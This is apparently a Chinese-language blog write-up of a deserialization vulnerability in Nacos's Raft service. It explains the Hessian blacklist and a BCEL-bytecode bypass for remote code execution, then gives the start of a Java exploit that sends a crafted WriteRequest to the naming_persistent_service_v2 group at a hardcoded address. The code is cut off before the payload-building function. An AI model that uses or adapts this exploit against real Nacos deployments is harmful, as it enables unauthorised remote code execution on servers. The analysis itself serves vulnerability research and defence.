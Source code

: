 如果message为 WriteRequest 的实例，那么就会调用 processor 的 onApply 方法，processor 的实现类如下：
![](https://img-blog.csdnimg.cn/b946f6e1f2ab4e7c8000a69c50358a01.png)

看到`com.alibaba.nacos.naming.core.v2.service.impl.PersistentClientOperationServiceImpl#onApply`
![](https://img-blog.csdnimg.cn/a5c0871a0fec4fe6b736cb7dc2d19824.png)

很明显调用了反序列化
注意这里有个`com.alibaba.nacos.naming.core.v2.service.impl.PersistentClientOperationServiceImpl#group`
![](https://img-blog.csdnimg.cn/05d5ce75554943b0866a68745d72c2e8.png)

group() 方法会作为 groupName 用于创建RaftGroupService
## 漏洞利用
虽然说nacos中集成了hessian-3.3.6.jar和hessian-4.0.63.jar，但还是会优先使用hessian-4.0.63进行反序列化，而这个版本中存在黑名单
![](https://img-blog.csdnimg.cn/737c8bb1667b4b38bf437a137beb72ca.png)

ban掉了如下这几个类：
```
java.lang.Runtime
java.lang.Process
java.lang.System
java.lang.Thread
```
所以不能用MethodUtil来打Runtime，我们可以使用`com.sun.org.apache.bcel.internal.util.JavaWrapper`加载bcel字节码实现rce

最后的exp：
```java
import com.alibaba.nacos.consistency.entity.WriteRequest;
import com.alipay.sofa.jraft.entity.PeerId;
import com.alipay.sofa.jraft.option.CliOptions;
import com.alipay.sofa.jraft.rpc.impl.GrpcClient;
import com.alipay.sofa.jraft.rpc.impl.MarshallerHelper;
import com.alipay.sofa.jraft.rpc.impl.cli.CliClientServiceImpl;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.google.protobuf.*;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class exp
{
    public static void main( String[] args ) throws Exception {
        String address = "192.168.111.178:7848";
        byte[] poc = build();

        //初始化 RPC 服务
        CliClientServiceImpl cliClientService = new CliClientServiceImpl();
        cliClientService.init(new CliOptions());
        PeerId leader = PeerId.parsePeer(address);

        WriteRequest request = WriteRequest.newBuilder()
                .setGroup("naming_persistent_service_v2")
                .setData(ByteString.copyFrom(poc))
                .build();
```